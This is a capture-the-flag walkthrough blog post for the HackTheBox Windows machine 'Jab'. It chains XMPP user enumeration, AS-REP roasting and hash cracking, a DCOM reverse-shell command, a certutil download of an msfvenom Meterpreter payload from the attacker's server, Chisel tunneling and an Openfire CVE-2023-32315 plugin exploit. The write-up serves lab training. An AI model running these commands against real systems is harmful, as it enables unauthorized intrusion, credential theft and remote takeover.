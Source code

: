 ```yaml
---
title: "CTF: Jab (Windows, Medium)"
excerpt: "A detailed walkthrough of \"Jab\" machine on HackTheBox."
tagline: "Private chats are not so private."
header:
  teaser: /docs/assets/images/teasers/ctf/jab.png
  og_image: /docs/assets/images/teasers/ctf/jab.png
  overlay_image: /docs/assets/images/teasers/ctf/jab2.png
author_profile: false
share: false
tags:
  - HackTheBox
  - Windows
  - Difficulty-Medium
categories:
  - CTF
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


## Description

This is a detailed walkthrough of "Jab" machine on HackTheBox that is based on Windows operating system and categorized as "Medium" by difficulty. Infiltrate a private XMPP chat room to discover a path towards exploiting Openfire - an instant messaging and groupchat server.

## Reconnaissance

Run **nmap**:

```bash
nmap -sV -T4 <IP>
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/nmapscan.png" alt="">
  <figcaption></figcaption>
</figure>

Nmap scan reveals XMPP service running on port 5269. XMPP is an open communication protocol designed for instant messaging, presence information, and contact list maintenance. Based on XML, it enables the near-real-time exchange of structured data between two or more network entities. You can learn more about it on [https://xmpp.org](https://xmpp.org).

There are several popular XMPP clients available, in this scenario we will use [Pidgin](https://www.pidgin.im) XMPP client to connect to the messaging server.

```bash
# Install Pidgin with the following command
sudo apt install pidgin
```
Run Pidgin and, when prompted, add a new account specifying target domain name:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/pidginaccountcreate.png" alt="">
  <figcaption></figcaption>
</figure>

On the advanced settings tab, set Connection security to *"Use encryption if available"*:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/pidginaccountcreate2.png" alt="">
  <figcaption></figcaption>
</figure>

Click "Add". You should connect to the server successfully. Go to Tools - Plugins, enable *XMPP Console* and *Service Discovery*:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/plugins.png" alt="">
  <figcaption></figcaption>
</figure>

Select XMPP Service Discovery from Tools dropdown menu. It will show the following available services on the webserver:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/xmppservices.png" alt="">
  <figcaption></figcaption>
</figure>

From Tools menu, open XMPP Console. Then go to Accounts - your user - Search for Users. Advanced User Search will open, search users by wildcard:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/usersearch.png" alt="">
  <figcaption></figcaption>
</figure>

You should get a list of all users both in XMPP Console and Advanced User Search results:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/usersearchresults.png" alt="">
  <figcaption></figcaption>
</figure>

Copy the output from XML Console to a text file. Then modify the XML Output to only contain unique strings with usernames and save them to another file for your comfort. The following command should do the trick:

```bash
cat users.txt | grep ".htb" | uniq | sed 's/<value>//g;s/<\/value>//g' | tr -d ' ' > filename
```

Modify the file manually if there will be any leftover lines that do not represent usernames. Your final list should look like this:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/userlist.png" alt="">
  <figcaption></figcaption>
</figure>

The discovered usernames appear to be domain users. It is possible use them in [ASREP-Roasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast) attack using **GETNPUsers.py** from **Impacket** tools to possibly get some user's account hash.

```bash
# Run GetNPUsers.py and convert hashes into a format suitable for JohnTheReaper, place output in hashes.txt
sudo python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py jab.htb/ -usersfile asrepusers.txt -format john -outputfile hashes.txt
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/getnpusersrun.png" alt="">
  <figcaption>Running GetNPUsers.py</figcaption>
</figure>

The process will take some time as our user list is quite long, but eventually the tool will extract 3 password hashes for users that did not have Kerberos pre-authentication enabled.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/asrepresults.png" alt="">
  <figcaption></figcaption>
</figure>

Now let's attempt to crack them with **JohnTheRipper*:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/hashcrack.png" alt="">
  <figcaption>Got a password for jmontgomery user!</figcaption>
</figure>

We have discovered our first set of credentials. Use them to login to XMPP server as **jmontgomery**. Search for services again. As **jmontgomery**, you will see a **new chat room** that was not visible previously:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/newchatroom.png" alt="">
  <figcaption></figcaption>
</figure>

Join **"pentest2003"** chat:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/newchatroomjoin.png" alt="">
  <figcaption></figcaption>
</figure>

Read the chat. In the conversation, you can see a leaked hash/password for **svc_openfire** user / service:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/svcopenfirehash.png" alt="">
  <figcaption></figcaption>
</figure>


## Exploitation / Foothold


The target host has RPC service running on port 135. Attempting to use **DCOM RCE** technique to gain foothold on the system (**dcomexec.py from Impacket tools**):


```bash
# Start a Netcat listener on desired port:
nc -lnvp <PORT>
# Generate a base64-encoded reverse shell payload for Windows (for example, on revshells.com)
# Run dcomexec.py with the generated payload:
sudo python dcomexec.py -object MMC20 -dc-ip <TARGET_IP> -debug jab.htb/'svc_openfire':'<PASSWORD>'@<TARGET_IP> 'cmd.exe /c powershell -e <BASE64-ENCODED REVERSE SHELL>' -silentcommand
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/dcomexecrun.png" alt="">
  <figcaption></figcaption>
</figure>

If executed successfully, a callback should be received on Netcat listener:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/callback.png" alt="">
  <figcaption></figcaption>
</figure>

### User flag

Claim user flag in *c:\users\svc_openfire\desktop* folder:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/userflag.png" alt="">
  <figcaption></figcaption>
</figure>


## Privilege escalation

To improve our capabilities, let's obtain a Meterpreter shell.

```bash
# Generate Meterpreter executable with msfvenom:
msfvenom  -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<PORT> -f exe > <filename>
# Start Metasploit and Meterpreter listener:
msfconsole
set payload windows/x64/meterpreter/reverse_tcp
set lhost <YOUR_IP>
set lport <PORT>
run
# Start Python HTTP server:
python3 -m http.server <PORT>
# On target host, download the generated file from your Python HTTP server:
certutil.exe -urlcache -split -f "http://<IP>:<PORT>/<filename>" <filename>
# Execute it
.\<filename>
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/backdoorexe.png" alt="">
  <figcaption>Transferring and calling Meterpreter executable.</figcaption>
</figure>


You should receive a callback in Metasploit. Let's enumerate applications on the target host with *post/windows/gather/enum_applications* module:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/enum_applications.png" alt="">
  <figcaption></figcaption>
</figure>

It's possible to deduce that the messaging server is based on **Openfire** (however, we could deduce this from the username as well). Enumeration of active connections with **netstat** shows that Openfire is listening internally on port 9090:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/netstat.png" alt="">
  <figcaption></figcaption>
</figure>

From here it is necessary to perform port forwarding in order to reach Openfire on internal port. Unfortunately, Meterpreter's port forwarding module did not work during my walkthrough, so I had to resort to [Chisel](https://github.com/jpillora/chisel/releases/tag/v1.7.3). Download a Windows x64 executable for the target machine and a Linux x64 one for yours. Transfer the Windows Chisel executable to the target host with the HTTP method shown previously. Then run the following:

```bash
# Attacker
./chisel_1.7.4_linux_amd64 server --reverse --port 9000
# Target
chisel_1.7.4_windows_amd64 client <YOUR_IP>:9000 9090:127.0.0.1:9090
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/chisel.png" alt="">
  <figcaption>Tunnel established.</figcaption>
</figure>

If a tunnel has been established successfully, you can navigate to *127.0.0.1:9090* to reach Openfire Administration Console. Login with **svc_openfire** credentials:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/openfireconsole.png" alt="">
  <figcaption>Tunnel established.</figcaption>
</figure>

### CVE-2023-32315

Vulnerability research for Openfire v.4.7.5. leads to **CVE-2023-32315** - Openfire Path Traversal which can be further exploited to gain unauthorized access to Openfire console and Remote Code Execution. Since we already have a set of credentials, we do not need to bypass authentication; we can proceed to the RCE part. For those interested, here's a great [article](https://vulncheck.com/blog/openfire-cve-2023-32315) that explains CVE-2023-32315 exploitation in more detail.

Download the following [exploit](https://github.com/miko550/CVE-2023-32315) from GitHub.


<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/exploit.png" alt="">
  <figcaption></figcaption>
</figure>

Highlighted is a malicious "Management tool" plugin that will allow us to obtain RCE on the system and escalate privileges to Administrator. Upload the plugin in "Plugins" section.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/pluginupload.png" alt="">
  <figcaption></figcaption>
</figure>


Navigate to Server - Server Settings - Management Tool. In the admin login panel, enter **123**. Select **system command** from dropdown menu. Background your current Meterpreter session with CTRL + Z and run the listener again. In the plugin's "Execute command" field, specify the path to the Meterpreter executable we have uploaded previously:


<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/execcommand.png" alt="">
  <figcaption></figcaption>
</figure>

You will receive a Meterpreter shell as Administrator user.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/adminshell.png" alt="">
  <figcaption></figcaption>
</figure>


### Root flag

Claim root flag in *c:\users\administrator\desktop\root.txt*




**Thank you for your attention and happy hacking!**
{: .notice--primary}
